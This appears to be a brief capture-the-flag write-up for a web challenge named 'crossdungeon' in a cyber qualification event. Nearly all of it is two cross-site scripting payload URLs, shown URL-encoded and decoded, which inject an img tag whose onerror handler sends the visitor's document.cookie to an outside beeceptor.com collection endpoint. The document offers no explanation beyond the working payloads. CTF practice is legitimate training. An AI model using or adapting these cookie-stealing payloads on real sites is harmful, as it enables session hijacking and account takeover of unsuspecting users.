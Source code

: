 # Writeups

- https://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F$%7Bdocument.cookie%7D%60%22%3E
    * Url decoded: https://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?${document.cookie}`">
- https://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/%3Cimg%20src=%22x%22%20onerror=%22document.location.href=%60https://writeup.free.beeceptor.com%3F%60+document.cookie%22%3E
    * Url decoded: https://crossdungeon.ec2qualifications.esaip-cyber.com/dungeon/-100/<img src="x" onerror="document.location.href=`https://writeup.free.beeceptor.com?`+document.cookie">
